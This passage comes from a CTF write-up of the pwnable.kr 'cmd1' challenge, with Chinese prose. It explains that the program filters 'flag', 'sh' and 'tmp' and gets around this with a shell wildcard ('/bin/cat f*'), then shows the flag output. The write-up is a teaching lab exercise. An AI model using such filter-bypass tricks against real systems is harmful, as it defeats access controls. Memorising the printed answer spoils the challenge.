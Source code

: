 
## 0x014 cmd1

>Problem Description:  
>Mommy! what is PATH environment in Linux?  
>Address:  
>ssh cmd1@pwnable.kr -p2222 (pw:guest)  

查看源码, 过滤了 flag、sh、tmp 字符
![](/assets/img/writeup/2017-08-13-pwnable-writeup/0x014-001.png)

利用通配符*绕过, getflag~
```
$ ./cmd1 "/bin/cat f*"
mommy now I get what PATH environment is for :)
```

getflag~
![](/assets/img/writeup/2017-08-13-pwnable-writeup/0x014-002.png)


## 0x015 cmd2
